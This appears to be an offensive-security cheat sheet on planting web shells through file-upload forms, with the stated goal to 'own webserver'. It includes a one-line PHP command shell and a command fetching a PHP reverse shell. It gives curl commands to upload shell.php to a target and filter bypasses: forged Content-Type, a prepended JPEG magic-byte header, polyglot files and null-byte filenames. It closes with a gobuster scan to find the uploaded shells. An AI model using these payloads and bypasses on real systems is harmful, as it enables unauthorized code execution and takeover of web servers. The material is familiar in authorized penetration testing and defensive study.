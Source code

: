 # get shells via file upload. defeat filters, own webserver.

## quick payloads

minimal php shell:
```php
<?php echo system($_GET["c"]); ?>
```

pentestmonkey reverse shell:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

## common filters encountered

**extension filtering**
- blacklist: blocks `.php`, `.php3`, `.asp`, etc
- whitelist: only allows `.jpg`, `.png`, `.pdf`, etc
- bypass: see `php-upload-bypass.md`

**mime type check**
- validates `Content-Type` header
- bypass: set `Content-Type: image/jpeg` for `.php` files
- easily fooled, only checks declared type

**magic bytes validation**  
- checks file signature (first bytes)
- bypass: prepend valid image header, add php after
- use `hexedit` to modify signatures

**file size limits**
- prevents large payloads
- standard php reverse shell = 5.4kb
- make smaller shells if needed

**filename sanitization**
- blocks special chars, paths
- randomizes uploaded names
- [!] uploaded shells may be renamed - scan for them

## client-side bypass

disable javascript:
- removes frontend validation entirely
- upload directly via curl/burp

direct api calls:
```bash
curl -X POST -F "file=@shell.php" -F "submit=upload" http://target/upload.php
```

## server-side bypass

**magic number spoofing:**
```bash
# add jpeg header to php file
echo -ne '\xff\xd8\xff\xe0' > shell.php.jpg
cat shell.php >> shell.php.jpg
```

**polyglot files:**
- valid image + executable code
- hide php in exif metadata
- [!] some filters check entire file content

**null byte injection:**
- `shell.php%00.jpg` (old php < 5.3.4)
- url encode twice: `shell.php%2500.jpg`

## file discovery post-upload

common upload paths:
```
/uploads/
/assets/
/files/
/media/
/tmp/
/var/www/uploads/
```

scan for uploaded files:
```bash
gobuster dir -u http://target/uploads/ -w /usr/share/wordlists/dirb/common.txt
```

[!] some systems rename uploads - check upload response for hints